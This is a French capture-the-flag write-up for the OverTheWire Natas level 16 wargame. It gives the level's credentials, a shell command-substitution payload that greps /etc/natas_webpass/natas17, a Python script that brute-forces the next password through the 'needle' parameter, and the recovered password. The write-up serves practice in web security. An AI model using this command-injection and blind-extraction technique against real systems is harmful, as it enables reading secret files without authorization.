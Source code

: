 username : natas16
password : hPkjKYviLQctEW33QmuXL6eDVfMW4sGo

- On arrive sur un dictionaire.txt 
- Certains caracteres sont bloqués mais pas le $() qui permets d'executer du code shell.
- On va tester ca : `$(grep -E ^a.* /etc/natas_webpass/natas17)test`
- On a un retour positif. On va donc construire notre mot de passe ainsi :
	1) On test pour tous les caracteres si on a une reponse valide alors on ajoute au mdp et on test pour le mdp actuel + les autres caractères.

Script python : 
```python 
import requests
import string

url = "http://natas16.natas.labs.overthewire.org/"
auth = ('natas16', 'mot_de_passe_du_niveau_precedent')
chars = string.ascii_letters + string.digits

password = ""
while len(password) < 32:
    for char in chars:
        payload = f'hackers$(grep ^{password}{char} /etc/natas_webpass/natas17)'
        r = requests.get(url, auth=auth, params={'needle': payload})
        if 'hackers' not in r.text:
            password += char
            print(f"Mot de passe trouvé jusqu'à présent : {password}")
            break
    else:
        print(f"Mot de passe complet : {password}")
        break

print(f"Mot de passe final : {password}")
```
- On lance le script 
- Notre Mot de passe se construit 
-> Mot de passe : **EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC** 
